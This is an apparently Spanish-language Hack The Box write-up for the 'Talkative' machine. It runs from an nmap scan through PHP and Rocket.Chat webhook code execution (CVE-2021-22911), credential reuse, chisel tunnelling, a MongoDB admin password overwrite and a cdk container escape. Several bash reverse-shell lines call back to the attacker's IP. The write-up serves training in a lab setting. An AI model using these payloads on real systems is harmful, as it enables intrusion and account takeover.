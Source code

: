 ```yaml
---
title: Talkative hackthebox writeup
author: HackerCloud
date: 2022-08-30 00:00:00 +0800
categories: [Hackthebox, machine, writeup]
tags: [Hackthebox, writeup]
image:
  path: ../../assets/img/commons/talkative-writeup/Talkative.png
  width: 800
  height: 500
  alt: Banner Talkative
---
```


Empezamos con el escaneo de nmap sobre los puertos de la máquina

```bash
❯ sudo nmap -sS -p- --open --min-rate 5000 -vvv -n -Pn 10.10.11.155 -oG allPorts
Scanning 10.10.11.155 [65535 ports]
Discovered open port 8080/tcp on 10.10.11.155
Discovered open port 80/tcp on 10.10.11.155
Discovered open port 8081/tcp on 10.10.11.155
Discovered open port 3000/tcp on 10.10.11.155
Discovered open port 8082/tcp on 10.10.11.155
Nmap scan report for 10.10.11.155
PORT     STATE SERVICE         REASON
80/tcp   open  http            syn-ack ttl 62
3000/tcp open  ppp             syn-ack ttl 62
8080/tcp open  http-proxy      syn-ack ttl 62
8081/tcp open  blackice-icecap syn-ack ttl 62
8082/tcp open  blackice-alerts syn-ack ttl 62
```

~~~
Explicación:
   -sS: TCP SYN port scan
   -p-: todo el rango de puertos (0-65535)
   --open: filtrar por puertos con status open
   --min-rate 5000: que envie como mínimo 5000 por segundo
   -vvv: para que te reporte los puertos abiertos antes de que termine el escaneo
   -n: para que no te aplique resolución DNS
   -Pn: para que no te aplique resolución de hosts através del protocolo de resolución de direcciones (ARP)
   -oG:  para que te exporte la información en formato grepeable
~~~

Como está el puerto 80 abierto podemos ir directamente a la web pero nos redirige a un dominio, esto lo podemos comprobar con curl

```html
❯ curl 10.10.11.155
<html><head>
<title>301 Moved Permanently</title>
</head><body>
<h1>Moved Permanently</h1>
<p>The document has moved <a href="http://talkative.htb">here</a>.</p>
<hr>
</body></html>
```

En el puerto 80 no encontramos nada interesante, podemos ir al puerto 8080 a ver su contenido

Podemos ver que hay una aplicación de Hoja de cálculo normal, tenemos disponible un editor que nos permite ejecutar código, vamos a intentar ejecutar una reverse shell, ya que esta web ejecuta código PHP

En este caso voy a usar esta reverse shell:

`system('bash -c "bash -i >& /dev/tcp/10.10.14.75/1234 0>&1"')`

Nos llega una reverse shell de un contenedor, no podemos entrar desde aquí a la máquina real pero podemos revisar los archivos de la máquina

```bash
❯ sudo nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.10.14.75] from (UNKNOWN) [10.10.11.155] 45940
root@b06821bbda78:/# whoami
whoami
root
root@b06821bbda78:/# hostname -I
hostname -I
172.18.0.2 
root@b06821bbda78:/#
```

Encontramos el archivo `/root/bolt-administration.omv`, no tenemos nada dentro de la máquina para poder descargar este archivo en nuestra máquina, podemos usar pwncat-cs para descargarlo directamente cuando nos llega la reverse shell

Una vez descargado podemos ver que contiene usuarios y contraseñas, creamos una expresión regular para poder filtrar por los que nos interesa, finalmente quedaría así:

~~~
matt
janit
saul
jeO09ufhWD<s
bZ89h}V<S_DA
)SQWGm>9KHEA
~~~

Haciendo Fuzzing sobre el dominio podemos encontrar el directorio bolt que contiene una página de inicio de sesión, podemos probar las crendenciales que hemos encontrado anteriormente a ver si las reutilizan aquí

El usuario admin funciona con la contraseña `jeO09ufhWD<s` , así que iniciamos sesión con las credenciales

Una vez iniciada la sesión podemos ver un apartado de configuración, dentro hay un apartado llamado `All Configuration Files`, vamos a ver su contenido

Podemos ver un archivo llamado `Bundle.php` , como la web interpreta PHP podemos usar la reverse shell anterior para meternos a la máquina

```php
<?php
	system('bash -c "bash -i >& /dev/tcp/10.10.14.75/1234 0>&1"')
?>
```

Nos ponemos en escucha con Netcat y nos llega una reverse shell como www-data en un contenedor

```bash
❯ sudo nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.10.14.75] from (UNKNOWN) [10.10.11.155] 57846
www-data@b922262b694b:/var/www/talkative.htb/bolt/public$ hostname -I
hostname -I
172.17.0.15 
```

Esto no nos da mucha información, podemos probar las credenciales encontradas anteriormente por SSH desde el propio contenedor

```bash
www-data@b922262b694b:/var/www/talkative.htb/bolt/public$ ssh saul@172.17.0.1
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
saul@172.17.0.1 password: jeO09ufhWD<s
saul@talkative:~$ whoami
saul
saul@talkative:~$ cat user.txt 
cd8c******cb258c950d9edcc065
```

Con [pspy](https://github.com/DominicBreuker/pspy) descubrimos este proceso

```bash
CMD: UID=0    PID=4894   | /bin/sh -c python3 /root/.backup/update_mongo.py
```

El cual es un script que actualiza la base de datos mongo, el puerto de mongo está abiero así que podemos tunelizar la conexión para poder conectarnos a la base de datos remotamente

```bash
saul@talkative:~$ netstat -nat
tcp        0      0 172.17.0.1:43752        172.17.0.2:27017        TIME_WAIT
```

Con [chisel](https://github.com/jpillora/chisel) tunelizamos la conexión hacia nuestra máquina

Máquina atacante:

```bash
❯ chisel server --reverse --port 8000
2022/08/30 17:21:20 server: Reverse tunnelling enabled
2022/08/30 17:21:20 server: Fingerprint 4iFocLbXWmRvOoiAYCwK9t8TfvcH6MJOSR1ngLYhgoM=
2022/08/30 17:21:20 server: Listening on http://0.0.0.0:8000
```

Máquina víctima:

```bash
saul@talkative:~$  ./chisel client 10.10.14.75:8000 R:27017:172.17.0.2:27017
2022/08/30 15:25:37 client: Connecting to ws://10.10.14.75:8000
2022/08/30 15:25:37 client: Connected (Latency 38.916105ms)
```

Ahora podemos intentar conectarnos a mongoDB e intentar cambiar la contraseña del usuario administrador de la web

```bash
rs0 [direct: primary] test> show databases
admin   104.00 KiB
config  124.00 KiB
local    11.69 MiB
meteor    4.91 MiB
rs0 [direct: primary] test> use meteor
switched to db meteor
rs0 [direct: primary] meteor> db.getCollection('users').update({username:"admin"}, { $set: {"services" : { "password" : {"bcrypt" : "$2a$10$n9CM8OgInDlwpvjLKLPML.eizXIzLlRtgCh3GRLafOdR9ldAUh/KG" } } } })
{
  acknowledged: true,
  insertedId: null,
  matchedCount: 1,
  modifiedCount: 1,
  upsertedCount: 0
}
```

Ahora como tenemos tunelizada la conexión tenemos que meternos por el puerto 8000 el cual está abierto en la máquina a la que nos estamos conectando con Chisel

Podemos ir al apartado de Administración>integraciones para crear una nueva integración

Nueva integración>WebHook entrante

~~~
Habilitado: Verdadero
Nomb: Shell
Canal: #general
Publicar como: admin
script habilitado: verdadero
~~~

Vamos a usar la primera línea de este [exploit](https://github.com/CsEnox/CVE-2021-22911/blob/main/exploit.py) , finalmente queda algo así

```bash
const require = console.log.constructor('return process.mainModule.require')();
require('child_process').exec('bash -c "bash -i >& /dev/tcp/10.10.14.75/1234 0>&1"');
```

Lo guardamos y hacemos un curl a la URL del webhook con el token que nos pone en la integración que hemos creado

```bash
❯ curl http://talkative.htb:3000/hooks/hA7ZNgGYHtRhpYBjH/CsNw6amXPMXR4PH9SANT7cyrFaDwhMpLNiiCwHzX9gCfwXcc
{"success":false}
```

Aunque ponga false nos llega la reverse shell, seguimos en un contenedor y no podemos descargar archivos de la máquina desde dentro

```bash
❯ nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.10.14.75] from (UNKNOWN) [10.10.11.155] 57468
root@c150397ccd63:/app/bundle/programs/server# hostname -I
hostname -I
172.17.0.3
```

Ahora con pwncat-cs nos ponemos en escucha, ejecutamos el comando de curl de antes y con  cdk leemos archivos de la máquina real, podemos leer directamente la flag.

```bash
❯ pwncat-cs -lp 1234
[17:41:55] Welcome to pwncat 🐈!                                                                                                               
(local) pwncat$ upload cdk /root/cdk
/root/cdk
[17:42:12] uploaded 11.91MiB in 6.67 seconds                                                                                                      
(local) pwncat$ back
(remote) root@c150397ccd63:/app/bundle/programs/server# cd /root
(remote) root@c150397ccd63:/root# chmod +x cdk                                                                                                               
(remote) root@c150397ccd63:/root# ./cdk run cap-dac-read-search /root/root.txt                                                                               
Running with target: /root/root.txt, ref: /etc/hostname
57ebcfafa23a47da6507a95d1307beff
(remote) root@c150397ccd63:/root#
```

Con esto terminamos la máquina Talkative.
